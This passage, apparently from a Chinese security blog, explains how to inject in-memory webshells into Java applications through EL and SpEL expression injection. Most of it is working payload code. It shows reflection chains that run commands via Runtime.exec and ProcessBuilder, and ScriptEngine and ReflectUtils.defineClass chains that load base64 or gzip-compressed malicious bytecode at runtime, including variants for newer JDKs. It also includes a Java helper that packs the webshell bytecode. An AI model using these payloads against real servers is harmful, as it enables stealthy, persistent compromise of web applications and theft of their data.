

可以通过`getEngineByName`方法拿到引擎，拿到引擎后可以调用引擎的`eval`方法，然后去执行相应的脚本。



#### EL表达式

对于一个基本的EL表达式利用如下：

```
${"".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc")}
```

这里通过反射去进行单向代码执行链。

如果想注入内存马，我们就得让程序自己去动态执行代码，也就是上文说的，在运行时加载内存马的恶意字节码。

payload如下：

```
${
    "".getClass().forName("javax.script.ScriptEngineManager").newInstance()
    .getEngineByName("js").eval(
        "var data='classbase64';
        var dataBytes=javax.xml.bind.DatatypeConverter.parseBase64Binary(data);
        var cloader= java.lang.Thread.currentThread().getContextClassLoader();
        var method=java.lang.ClassLoader.class.getDeclaredMethod('defineClass',''.getBytes().getClass(),java.lang.Integer.TYPE,java.lang.Integer.TYPE);
        method.setAccessible(true);
        var memClass=method.invoke(cloader,dataBytes,0,dataBytes.length);
        memClass.newInstance();")
 }
```

#### spel表达式

这个同EL表达式类似了。

基本的利用链子：

```
T(java.lang.Class).forName("javax.scrip"+"t.ScriptEngineManager").newInstance().getEngineByName("js")
.eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd','/c','calc']).start()")
```

注入内存马：

```
{
    T(org.springframework.cglib.core.ReflectUtils).defineClass(
        'your-className',
        T(java.util.Base64).getDecoder().decode('class-base64'),
        T(java.lang.Thread).currentThread().getContextClassLoader(), 
        null, 
        T(java.lang.Class).forName("org.springframework.expression.ExpressionParser")
    )
}
```

JDK高版本注入内存马：

> <https://whoopsunix.com/docs/java/named%20module/#0x02-jdk-%E9%AB%98%E7%89%88%E6%9C%AC%E4%B8%8B%E7%9A%84-spel-%E6%B3%A8%E5%85%A5-methodhandle>

```
{
    T(org.springframework.cglib.core.ReflectUtils).defineClass(
        'org.springframework.expression.CalcTest',
        T(java.util.Base64).getDecoder().decode('ClassTest-Base64'),
        T(java.lang.Thread).currentThread().getContextClassLoader(), 
        null, 
        T(java.lang.Class).forName("org.springframework.expression.ExpressionParser")
    )
}
```

记住，这里字节码中要`package org.springframework.expression;`同包。

如果注入shell内存马还得考虑下如何bypss module的限制。参考如下文章：

> <https://mp.weixin.qq.com/s/jCOp9A-qO8ViqLx3ui0XHg>

如果内存马过大，则需要gzip再base64。

环境中存在`org.apache.commons.io.IOUtils`，则打：

```
T(org.springframework.cglib.core.ReflectUtils).defineClass(
    'org.springframework.expression.Test',
    T(org.apache.commons.io.IOUtils).toByteArray(
        new java.util.zip.GZIPInputStream(new java.io.ByteArrayInputStream(T(org.springframework.util.Base64Utils).decodeFromString('gzip + Base64')))),
        T(java.lang.Thread).currentThread().getContextClassLoader(),null,T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))
```

字节码压缩脚本：

```
package com.test;

import java.io.*;
import java.util.Base64;
import java.util.ArrayList;
import java.util.List;
import java.util.zip.GZIPOutputStream;

public class test8 {

    public static void main(String[] args) {
        // 输出'gzip + Base64'的恶意字节码到文件
        String outputFilePath = "SpELMemShell.txt";

        try {
            // 压缩并编码 .class 文件
            String base64Memshell = "xxxxx";
            byte[] decode = Base64.getDecoder().decode(base64Memshell);
            String payload = compressAndEncodeClassFile(decode);
            // 写入文件
            writeToFile(outputFilePath, payload);
        } catch (IOException e) {
            System.err.println("Error processing the file: " + e.getMessage());
        }
    }
    private static String compressAndEncodeClassFile(byte[] classData) throws IOException {
        // 使用 gzip 进行压缩
        byte[] compressedData = compress(classData);

        // 将压缩后的数据转换为 Base64 编码
        String encodedCompressedData = Base64.getEncoder().encodeToString(compressedData);

        // 输出原始长度和新的 Base64 编码长度
        System.out.println("Original Base64 encoded string length: " + classData.length);
        System.out.println("New Base64 encoded string length after gzip compression: " + encodedCompressedData.length());

        return encodedCompressedData;
    }

    private static byte[] compress(byte[] data) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        try (GZIPOutputStream gzos = new GZIPOutputStream(baos)) {
            gzos.write(data);
        }
        return baos.toByteArray();
    }

    private static void writeToFile(String filePath, String content) throws IOException {
        try (BufferedWriter writer = new BufferedWriter(new FileWriter(filePath))) {
            writer.write(content);
        }
    }

}
```



## 总结

通过本文，相信对反序列化注入内存马不是很清楚的同志们应该能够略知一二了。

对于反序列化注入内存马的核心原理，我的总结就是一句话，“**在运行期间使程序通过其动态特性加载任意字节码**”。
